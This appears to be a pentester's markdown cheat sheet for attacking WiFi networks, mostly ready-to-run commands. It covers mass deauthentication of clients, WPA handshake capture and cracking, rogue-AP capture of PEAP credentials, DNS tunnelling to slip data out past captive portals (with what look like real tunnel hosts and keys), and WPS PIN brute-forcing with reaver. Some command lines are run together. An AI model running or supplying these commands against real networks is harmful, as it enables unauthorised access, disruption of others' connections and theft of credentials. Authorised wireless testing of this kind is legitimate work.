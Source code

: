 # WIFI

## **WPA**

1. Capture Handshake using airodump-ng 
2. Crack it locally using john or hashcat

### 1. Monitor mode

```sh
sudo airmon-ng start wlan0
```

### 2. Listen for specific bssid

```sh
sudo airodump-ng -a mon0
```

> find you target bssid \(mac\) and chanel

```sh
airodump-ng -c <channel> --bssid <MAC-BOX-CLIENT> --showack -w capture mon0
```

> don't forget the -w paramter to save the handshake !

### 3. DeAUTH

```sh
# DEAUTH all clients from a box
aireplay-ng mon0 -0 5 -b <MAC-BOX>

# DEAUTH specific client device
aireplay-ng mon0 -0 5 -a <MAC-BOX> -c <MAC-DEVICE-CLIENT> 


# DEAUTH massif (each client connected at each bssid of an essid)
for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done

```

### 4. Handshake cracking

Handshaked captured ? go crack it !

Crack with aircrack

```sh
aircrack-ng capture-01.cap --wordlist=<wordlist>
```

Crack with john

```bash
wpaclean capture.cap-01.clean.cap capture.cap-01.cap
aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap
hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john
john --wordlist=<wordlist> capture.cap-01.hccap.john
```

Crack with hashcat

```sh
todo
```

---

## **PEAP**

1. `sudo apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices \(see WPA - 3. DeAUTH\)

Log PEAP : hash client format john

```sh
cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'
```

> Vulnerability fix : GPO validate certificate

---

## **Captive portal**

### DNS tunneling

Try DNS tunneling to exfiltrate data over the internet

- [http://requestbin.net/dns](http://requestbin.net/dns)

- [dnscat2](https://github.com/iagox86/dnscat2)

```sh
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
bundle install
```

## Troubleshooting

### unblock wifi card

```bash
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```

---

## **Todo**

### PEAP hash replay

* Spoof AP and replay hashed captured
  * [Sensepost berate_ap](https://github.com/sensepost/berate_ap)
  * [Sensepost sycophant](https://github.com/sensepost/wpa_sycophant)

### dns2tcp manually

création du tunel

```sh
dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new
```

mise en place du proxy local

```sh
ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh
```

### WPS

```bash
airmon-ng check airmon-ng start wlan1 
wifite --showb --wpa --mon-iface wlan0mo 
airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 
airodump-ng -a wlan1mon --essid-regex Internet 
wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40
airmon-ng check airmon-ng start wlan0 
airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1
```